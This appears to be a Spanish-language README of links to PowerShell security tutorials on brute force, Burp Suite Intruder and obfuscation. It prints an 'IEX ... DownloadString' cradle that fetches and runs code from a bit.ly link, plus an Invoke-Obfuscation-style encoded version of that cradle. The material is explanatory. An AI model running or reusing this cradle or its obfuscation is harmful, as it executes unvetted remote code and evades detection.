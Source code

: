 # Contraseñas seguras con PowerShell
https://www.jesusninoc.com/contrasenas-seguras-con-powershell/

# Brute Force
https://www.jesusninoc.com/brute-force/

# Ataque de fuerza bruta con Burp Suite Intruder
https://www.jesusninoc.com/2016/02/23/ataque-de-fuerza-bruta-con-burp-suite-intruder/

# Ofuscación
https://www.jesusninoc.com/12/01/ofuscacion-en-powershell/

## Automated Obfuscation viaInvoke-Obfuscation? • IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/L3g1t')
```PowerShell
. ( $PShoMe[21]+$psHOMe[34]+'X')((("{14}{11}{7}{46}{5}{30}{22}{24}{68}{78}{0}{59}{67}{31}{38}{55}{16}{69}{51}{17}{23}{8}{35}{6}{71}{34}{50}{64}{60}{58}{47}{10}{48}{65}{37}{40}{21}{56}{43}{53}{52}{9}{12}{74}{26}{36}{2}{15}{70}{61}{75}{66}{49}{29}{77}{42}{32}{1}{4}{33}{54}{76}{13}{73}{45}{18}{19}{28}{62}{20}{41}{27}{44}{3}{25}{72}{57}{63}{39}{79}" -f'(&','}{2}','A','j6T,j6','PA','6T','6T)','f','w','entj6T)','ebj6','AM-',').(PA',' j6T.lj6','.(PAM{1}{0}P','M-fj6T','jectj6T,j','6T','3','j','tj6T,','6','j6T,',',j6TNe','j6TIE','Th','}{1}{0','6','6','rinj6T,j6TDownj6','X','1}{0}','}{0}{1','M','1}{0}','j','}P','TNe','PA','itj6','j','j','}{5',',j6','T/','6Ty/L',' j','6Tt.W','T','t','{','-Oj','Cli','T','-','M-fj6Tb','T','/j','-fj','(PA','M','j6','T,j6Tg1','6T,j6Tb','2}PA',',j6','oadS','M{2}{','j','6T','g','(PAM{','ttp:','T,j','M{2','T,j6Tl','f','T).Invoke((PAM{4}{3','6T)','T))')).replACE(([Char]80+[Char]65+[Char]77),[stRIng][Char]34).replACE('j6T',[stRIng][Char]39) )
```
